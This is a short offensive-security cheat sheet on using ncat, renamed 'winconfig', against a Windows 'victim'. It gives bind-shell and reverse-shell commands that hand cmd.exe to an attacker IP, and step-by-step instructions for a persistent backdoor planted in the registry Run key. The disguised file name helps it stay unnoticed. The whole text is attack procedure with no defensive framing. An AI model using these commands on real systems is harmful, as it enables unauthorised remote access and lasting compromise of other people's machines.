 ### ncat

Syntax: `ncat [OPTIONS...] [hostname] [port]`

For using ncat we must upload version of ncat for the victim os in victim os.

#### Target as listener

In target system if windows: `winconfig -l -p 5555 -e cmd.exe`

On attacker sytem: `ncat 192.168.102.152 5555` where 192.168.102.152 is the victim ip address.

* * *

#### Attacker as the listener

In taget system if windows: `winconfig -e cmd.exe 192.168.102.100 5555` where 192.168.102.100 is attacker ip.

On attacker system: `ncat -l -p 5555 -v`.

* * *

#### Creating persisting backdoor using ncat

|     |     |
| --- | --- |
| **Attacker** | **Victim** |
| 1.  `ncat -l -p 5544 -v`<br><br>8\. Now we can access the victim computer from attacker computer. | 2\. Windows+Run -> regedit<br><br>3\. Go to HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run<br><br>4\. Right click -> new -> striing value<br><br>5\. Rename to 'winconfig'<br><br>6\. Double click to edit value.<br><br>7\. Give value as "c:path/to/winconfig.exe 192.168.102.100 5544 -e cmd.exe" where 192.168.102.100        is  ip address of the attcker. |

